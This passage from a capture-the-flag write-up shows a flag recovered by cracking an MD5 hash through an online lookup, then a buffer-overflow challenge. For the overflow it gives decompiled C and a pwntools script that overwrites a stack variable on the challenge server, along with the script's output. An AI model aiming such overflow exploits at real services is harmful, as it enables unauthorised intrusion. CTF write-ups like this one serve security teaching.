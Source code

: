 Cracked the hash `33a465747cb15e84a26564f57cda0988` with crackstation ([https://crackstation.net/](https://crackstation.net/))  - `dancingqueen`. The flag is `kqctf{dancingqueen}`.

# pwn

from IDA Pro:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+10h] [rbp-30h] BYREF
  unsigned int v5; // [rsp+3Ch] [rbp-4h]

  v5 = 0;
  puts("Is this a kind of magic? What is your magic?: ");
  fflush(_bss_start);
  fgets(s, 64, stdin);
  printf("You entered %s\n", s);
  printf("Your magic is: %d\n", v5);
  fflush(_bss_start);
  if ( v5 == 1337 )
  {
    puts("Whoa we got a magic man here!");
    fflush(_bss_start);
    system("cat flag.txt");
  }
  else
  {
    puts("You need to challenge the doors of time");
    fflush(_bss_start);
  }
  return 0;
}
```

We can see a simple buffer overflow that allows us to change the v5 variable and get the flag. Wrote a script with pwntools:

```python
from pwn import *

r = remote('143.198.184.186', 5000)
print(r.recv())
offset = b"A"*44
offset += p64(1337)
r.send(offset)
r.interactive()
```

Output:

```python
python3 get_flag.py
[+] Opening connection to 143.198.184.186 on port 5000: Done
b'Is this a kind of magic? What is your magic?: \n'
[*] Switching to interactive mode
$ w
You entered AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA9\x05Your magic is: 1337
flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
Whoa we got a magic man here!
[*] Got EOF while reading in interactive
```